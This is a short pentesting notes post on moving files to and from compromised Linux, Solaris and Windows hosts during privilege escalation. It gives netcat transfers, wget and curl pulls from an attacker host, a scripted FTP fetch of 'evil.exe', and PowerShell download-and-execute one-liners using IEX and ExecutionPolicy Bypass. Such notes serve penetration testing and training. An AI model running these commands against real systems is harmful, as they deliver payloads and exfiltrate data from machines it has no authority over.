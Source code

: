 ```yaml
---
layout: single
title: '<span class="Articles"> Transfering data W|L - /Articles</span>'
excerpt: "while you are trying to privilage escalating you might need to know how to transfer archives or binaries "
date: 2023-04-26
header:

  teaser_home_page: true



categories:

  - article
  - web
  - files
tags:  
  - windows
  - Solaris
  - linux
toc: true
toc_label: "Content"
toc_sticky: true
show_time: true
---
```



while you are trying to privilage escalating you might need to know how to transfer archives or binaries
i recommend you to execute ```which``` before you try the following binaries in order to know ```which``` binaries are available in our machina; in the target machine 

examples

## Solaris and Linux

# Rsync

```rsync -az source destination```
# Python

```php
Python SimpleHTTPServer
```

```on Attacker```
```bash
python -m SimpleHTTPServer 80
```

```on target```
```bash
wget <attackerip>:80/filename
```



# Apache

```on Attacker```

```bash
cp filetoYouWantsend.txt /var/www/html
service apache2 start
```

```on target```
```bash
wget http://attackerip/file
```
```bash
curl http://attackerip/file > file
```
```bash
fetch http://attackerip/file  ```on BSD```
```


# Netcat

```Listen on your own machine```
```php
nc -lvp 4444 > file
```
```send to the Target machine```
```bash

nc <kali_ip> 4444 < file
```



# Netcat + Python


```on Attacker```
```bash
python -m http.server 90
```
```on target```

```wget <attackerip>:90/filename```



# Netcat 


```Listen on your own machine```

nc -lvp 4444 > file

```on target, wait for the file```
nc -nvlp 55555 > file

```on kali, push the file```
nc $victimip 55555 < file


----------------------

## Good to know Linux Solaris:

```To send the executable file to your machine```:

```bash
base64 executable
# copy the output
# paste it in a file called file.txt
# decode it and create the executable
base64 -d file.txt > executable
```
## Windows 


# TFTP
```Windows XP and Win 2003 contain tftp client. Windows 7 do not by default```
```tfpt clients are usually non-interactive, so they could work through an obtained shell```

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



FTP (pyftpdlib client on Kali)
```Ftp is generally installed on Windows machines```

# To make it interactive, use -s option

```On Parrot install a ftp client and set a username/password```

```bash
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

```on Windows```

```bash
ftp <attackerip>
> binary
> get exploit.exe
```


# FTP (pureftpd client on parrot)

```on your own machine ```

```bash
 install ftp client

$ apt-get install pure-ftpd

 create a group

$groupadd ftpgroup

 add a user

$ useradd -g ftpgroup -d /dev/null -s /etc ftpuser

Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/zek).

$ mkdir /root/ftphome

 Create a ftp-user, in our example "zek" (again you can set "-d /root/ftphome/zek/" if you want to).

$ pure-pw useradd zek -u ftpuser -g ftpgroup -d /root/ftphome/
 Update the ftp database after adding our new user.

$ pure-pw mkdb

 change ownership of the specified ftp directory (and all it's sub-direcotries) 

$ chown -R ftpuser:ftpgroup /root/ftphome

 restart Pure-FTPD
 
$ /etc/init.d/pure-ftpd restart
```

```On Windows target machine```

```bash
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```



# Powershell
```bash 
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


# Powershell download a file
```bash
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```
